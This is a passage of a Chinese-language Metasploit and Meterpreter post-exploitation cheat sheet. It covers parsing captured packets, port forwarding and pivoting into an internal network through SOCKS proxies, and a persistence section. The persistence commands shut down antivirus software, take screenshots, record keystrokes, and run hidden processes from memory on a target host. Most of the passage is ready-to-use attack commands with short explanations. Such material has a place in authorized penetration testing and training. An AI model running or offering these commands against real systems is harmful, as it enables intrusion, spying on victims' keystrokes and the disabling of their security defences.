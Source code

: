 对抓取的包进行解包
```bash
use auxiliary/sniffer/psnuffle
set pcapfile 1.cap
run
```

**端口转发和内网代理**
- **portfwd**

    portfwd 是 meterpreter 提供的端口转发功能,在 meterpreter 下使用 portfwd -h 命令查看该命令的参数。
    ```bash
    portfwd add -l 2222 -r 1.1.1.1 -p 3389  # 将 1.1.1.3 的 3389 端口转发到本地的 2222 端口。
    -l：本地监听端口
    -r：内网目标的 ip
    -p：内网目标的端口
    ```

- **pivot**

    pivot 是 msf 最常用的代理,可以让我们使用 msf 提供的扫描模块对内网进行探测。
    ```bash
    route add 内网ip 子网掩码 session的id   # 添加一个路由
    route print

    如果其它程序需要访问这个内网环境,就可以建立 socks 代理
    msf 提供了3个模块用来做 socks 代理。
    auxiliary/server/socks4a
    auxiliary/server/socks5
    auxiliary/server/socks_unc

    use auxiliary/server/socks4a
    SRVHOST：监听的 ip 地址,默认为 0.0.0.0,一般不需要更改。
    SRVPORT：监听的端口,默认为 1080。
    直接运行run命令,就可以成功创建一个 socks4 代理隧道,在 linux 上可以配置 proxychains 使用,在 windows 可以配置 Proxifier 进行使用。
    ```

### 权限维持

**关闭防病毒软件**
```bash
run killav
```

**截屏**

`screenshot`

**键盘记录**
```bash
keyscan_start：开启键盘记录功能
keyscan_dump：显示捕捉到的键盘记录信息
keyscan_stop：停止键盘记录功能
```

**执行程序**
```bash
execute -f <path> [options] 在目标主机上执行 exe 文件
-H：创建一个隐藏进程
-a：传递给命令的参数
-i：跟进程进行交互
-m：从内存中执行
-t：使用当前伪造的线程令牌运行进程
-s：在给定会话中执行进程
```
